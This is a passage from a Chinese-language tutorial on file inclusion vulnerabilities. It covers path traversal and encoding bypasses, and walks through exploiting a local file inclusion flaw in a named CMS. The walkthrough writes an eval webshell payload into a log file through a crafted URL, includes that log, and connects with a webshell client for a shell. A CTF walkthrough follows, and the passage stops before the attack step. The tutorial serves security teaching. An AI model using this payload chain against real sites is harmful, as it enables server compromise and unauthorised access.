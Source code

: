 ### 指定前缀绕过

使用相对路径 ../../ 来返回上一目录，被称为目录遍历(Path Traversal)。

例如 `?file=../../phpinfo/phpinfo.php`

### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。

## 实例

### 某CMS程序文件包含利用-黑盒
易酷CMS是一款影片播放CMS。该CMS2.5版本存在本地文件包含漏洞。我们可以利用这个漏洞，让其包含日志文件，然后再利用报错信息将一句话木马写入日志中。然后利用文件包含漏洞包含该日志文件，再用菜刀连接拿shell。

我们通过访问该url，将一句话木马写入日志文件中。由于文件包含时会自动将文件内容解析为php代码，所以下面的URL中并没有使用`<?php ?>`。该URL会发生报错：

`http://192.168.10.22/index.php?s=my/show/id/{~eval($_POST[x])}`

![image-20220805105735348](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805105735348.png)

然后就生成了相应的日志文件，文件存储有URL中的恶意代码：

![image-20220805105845794](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805105845794.png)

该日志是以时间日期命名的，测试一句话木马：

`http://192.168.10.22/index.php?s=my/show/id/../temp/logs/20_08_14.log`

![image-20220805110122484](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805110122484.png)

用菜刀连接该日志文件，得到shell。

### CTF-南邮大

http://4.chinalover.sinaapp.com/web7/index.php

进入网站：

![image-20220805095409995](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805095409995.png)

点击click me? no，发生跳转：

![image-20220805095508199](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805095508199.png)

- **确定是否为文件包含**

发现网站URL的参数名为file且接收一个文件名，判断可能考察文件包含。直接访问show.php看看：

![image-20220805100147678](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805100147678.png)

**与`file=show.php`显示是一样的，说明`index.php?file=show.php`存在文件包含**。

- 尝试进行攻击
